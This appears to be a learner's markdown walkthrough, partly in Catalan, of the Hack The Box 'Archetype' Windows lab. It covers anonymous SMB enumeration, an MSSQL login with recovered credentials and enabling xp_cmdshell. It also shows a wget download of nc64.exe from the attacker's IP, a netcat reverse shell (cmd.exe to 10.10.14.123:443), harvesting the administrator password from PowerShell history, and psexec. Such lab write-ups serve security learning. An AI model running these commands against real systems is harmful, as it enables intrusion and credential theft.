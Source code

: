 # Intro
| Dificulty | OS | Start Date | End Date | Help? |
|---|---|---|---|---|
| Very Easy | Windows | 26/05/2022 | 28/05/2022 | Yes |


# Thought process
1. Common enumeration
2. Check `smbclient`
3. Use `impacket`
4. 




# smbclient
> Check Samba Server from Linux
```bash
$ smbclient -N -L @Target_IP
```
[-N]: Suppresess the normal password prompt from the client to the user
[-L]: List what services are aviable

There's a folder call it "backups" that probably has more information.

> Access Samba folder
```bash
$ smbclient -N \\\\@Target_IP\\folder_name
```

`get file_name` To download file to our local machine.
[//]: The file is located in the directory from which the connection was established.

In these file we can see that there's a usrname:password.

```
ARCHETYPE\ sql_svc
M3g4c0rp123
```


# impacket

```
~/HTB/impacket/examples
└─$ python3 mssqlclient.py ARCHETYPE/sql_svc@10.129.90.161 -windows-auth
```

un cop en el server, s'ha de permettre `enable_xp_cmdshell` perque despres farem comandos de windows al servidor.

???perque collons ers lo de responder





# FINDS
ARCHETYPE\sql_svc = M3g4c0rp123

mssqlclient.py (Estavlir conexio autentificada amb el servidor SQL)
xp_cmdshell (Executar Consola de Comandos de Windows en Microsoft SQL)
winpeas (Privilegie Escalation)

---
# Archetype
https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server
https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet

username: dbo
system_user: sql_svc

> Veure quin rol tenim
```SQL
SQL> SELECT is_srvrolemember('sysadmin');
```
1 --> True

> Llistar Databases
```sql
SQL> EXEC sp_databases;
```


> Execució de commandes
```sql
SQL> EXEC xp_cmdshell ‘net user’;

SQL> EXEC sp_configure ‘show advanced options’, 1; — priv

SQL> RECONFIGURE; — priv

SQL> EXEC sp_configure ‘xp_cmdshell’, 1; — priv

SQL> RECONFIGURE; — priv
```
[priv]: S'han d'executatr amb usuari que tingui permisos d'admin

!! Com que ja podem executar commandes, intentarem executar una reverse shell. (nc64.exe)

> Escoltar port 80 local (Python)
```bash
$ sudo python3 -m http.server 80
```

> Escoltar port 80 local (netcat)
```bash
$ sudo nc -lvnp 443
```

?¿ Quina és la diferencia

> Saber directori del server
```sql
SQL> xp_cmdshell "powershell -c pwd";
```


En aquest directori no hi ha permisos d'execucció per l'usuari sql_svc així que haurem d'utilitzar el alguna ruta del seu directori.
Després fem la petició de la reverse shell que tenim en local.

> Canvi de directori i Reverse Shell
```sql
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.123/nc64.exe -outfile nc64.exe"
```

Podrem observar que el python que tenim escoltant al port 80 ha rebut una petició de GET.

> Solicitar cmd com a reverse shell al Local
```sql
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.123 443"
```

El netcat ja haurà rebut la petició de la reverse shell al port 443

![[Pasted image 20220528174933.png]]


Busquem la flag en el sistema i amb un `more` llegim el contingut

---

# Privilegie Escalation
Utilitzarem l'eina WinPeas. Primer descarreguem en local i despres la solicitem desde la màquina. 
(Continuar fent escolta en el port 80 amb python)
[Link descarrega](https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe)

Executar escolta en port 80 desde l'ubicació on està el winPEAS. Fer `wget` de l'arxiu

```powershell
wget http://10.10.14.123/winPEASx64.exe -outfile winPEASx64.exe
```
[//]: S'ha d'estar en un directori on l'usuari tingui permissos.

Executem el binari utilitzant la reverse shell
```powershell
.\winPEASx64.exe
```

Podem observat que hi ha `SeImpersonatePrivilege` [Link](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege) i aquest es vulnerable a "[juicy potato exploit](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato)". Però abans mirem si hi ha arxius que puguin contindre passwords.

Com que 'sql_svc' es un usuari normal, podem mirar el equivalent al '.bashrc' de powershell.
```powershell
cd C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline
```

El fitxer conté la contrasenya de administrador.
administrator:MEGACORP_4dm1n!!

Ara podem executar `psexec.py` desde impacket per tenir una shell com Administrador.

```bash
$ python3 psexec.py administrator@Target_IP
```
![[Pasted image 20220528174919.png]]
La root flag es troba en el desktop de l'usuari










